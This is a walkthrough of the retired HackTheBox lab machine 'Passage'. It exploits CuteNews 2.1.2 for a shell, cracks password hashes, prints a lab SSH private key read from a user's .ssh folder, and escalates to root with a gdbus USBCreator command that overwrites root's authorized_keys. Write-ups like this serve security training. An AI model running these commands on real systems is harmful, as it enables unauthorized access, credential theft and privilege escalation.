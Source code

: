 Title:HTB: Passage
Date: 03-09-2021 09:20
category:security
tags:security, boot2root, HTB, linux
meta:security, boot2root, HTB, linux

<img class="align-left" src="/media/2021.03/passage_card.png" alt="Passage Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Passage](https://www.hackthebox.eu/home/machines/profile/275) publish on
September 2, 2020 by
[ChefByzen](https://www.hackthebox.eu/home/users/profile/140851).
This box is rated as a medium box. It implies two public exploit and a share SSH
private key.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.80 scan initiated Sun Sep  12 03:46:59 2020 as: nmap -p- -sSV -oN nmap 10.10.10.206
    Nmap scan report for 10.10.10.206
    Host is up (0.086s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Web

We browse to the website. This is a simple blog with some news. One of them is
about a [fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page)
implementation. This will dissuade us to brute force login (which rarely happen on HTB) and run `dirb` against
the site.

![Passage News index](/media/2021.03/passage_01.png)

When looking at the bottom of the page we see that the blog is "Powered by
CuteNews". A few Google search lead us to the admin panel located at `/CuteNews`

![Cute News login page](/media/2021.03/passage_02.png)

We can login (but we don't have any creds) or we can create an account.
We also check the available exploit for this CuteNews version (2.1.2).

    :::text
    kali@kali:~$ searchsploit CuteNews 2.1.2
    ----------------------------------------------------------- ---------------------------------
    Exploit Title                                             |  Path
    ----------------------------------------------------------- ---------------------------------
    CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploi | php/remote/46698.rb
    CuteNews 2.1.2 - Arbitrary File Deletion                   | php/webapps/48447.txt
    CuteNews 2.1.2 - Authenticated Arbitrary File Upload       | php/webapps/48458.txt
    ----------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

We import the 'Avatar' exploit into metasploit using [rapid7 guide](https://github.com/rapid7/metasploit-framework/wiki/Running-Private-Modules).
We register an account an launch the exploit and got a reverse shell as `www-data`.

We look at the available files. We found the `cdata` folder just a level above
and then the `users` directory. We display some of them. They contain base64
encoded user data. Some of them contain a SHA256 hashed password.

    :::text
    cat b0.php
    <?php die('Direct call - access denied'); ?>
    YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTYwMDA4MDM1OSI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19

    a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

We grab all the hashes and crack them using `john` and the rockyou wordlist.
`Paul`'s password is `atlanta1`.

    [maggick@fomalhaut ~]$ john hash -w=~/tools/password_lists/rockyou.txt --fork=8 --rules --format=Raw-SHA256
    Using default input encoding: UTF-8
    Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 AVX 4x])
    Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
    Node numbers 1-8 of 8 (fork)
    Each node loaded 1/8 of wordfile to memory (about 16 MB/node)
    atlanta1         (paul)
    Press 'q' or Ctrl-C to abort, almost any other key for status
    atlanta1         (paul)
    atlanta1         (paul)
    atlanta1         (paul)
    Waiting for 7 children to terminate
    Session completed

We open a shell, and try to switch user but we cannot use `su` as we don't have
a proper terminal. Using
[Payload all the things cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell)
we get an interactive shell and get logged in as `paul` and grab the user flag.

    :::text
    meterpreter > shell
    Process 3053 created.
    Channel 14 created.
      su 
    su: must be run from a terminal
    /usr/bin/script -qc /bin/bash /dev/null                  
    www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
    su paul
    Password: atlanta1

    paul@passage:/var/www/html/CuteNews/cdata/users$ cd
    cd
    paul@passage:~$ cat user.txt
    cat user.txt 
    c9e5ea0c3e42965404e9cf34eaee71bd

# Root

We grab the SSH key in paul's `.ssh` folder. The associated public key show us
that this is `nadav` public (and private) key.

    :::text
    cat .ssh/id_rsa.pub
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
    paul@passage:~$ cat .ssh/id_rsa
    cat .ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
    +L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
    Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
    rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
    JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
    sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
    eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
    QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
    lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
    zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
    R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
    7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
    GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
    IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
    LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
    AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
    VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
    1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
    KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
    9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
    d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
    nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
    f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
    Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
    OR3ygpKs09yu7svQi8j2qwc7FL6DER74yws+f538hI7SHBv9fYPVyw==
    -----END RSA PRIVATE KEY-----

So we just us the SSH key to connect as `nadav`.

    :::text
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 04:54:44 2020 from 10.10.14.5
    nadav@passage:~$ id
    uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

We look at the files in the home folder. In .viminfo we found that one of the
latest edited file is about USBCreator.

    :::text
    # Jumplist (newest first):
    -'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
    -'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

A quick Google search lead us a [blog post](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) about how to write a file on the system as
root. We reproduce the step in order to copy `nadav`'s `authorized_keys` file in
the `root`'s `.ssh` directory. We can then connect as `root` with our SSH key
and get the flag.


    :::text
    nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
    ()
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 05:13:56 2020 from 127.0.0.1
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l root 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
    root@passage:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@passage:~# cat root.txt o
    db9c53fcf5bde2fa5a591bcb948a1d3a

# Wrapping up

This box was quit easy. Not to much rabbit hole. At the end this is just the
chaining of two public exploits. I will recommend it for beginners.

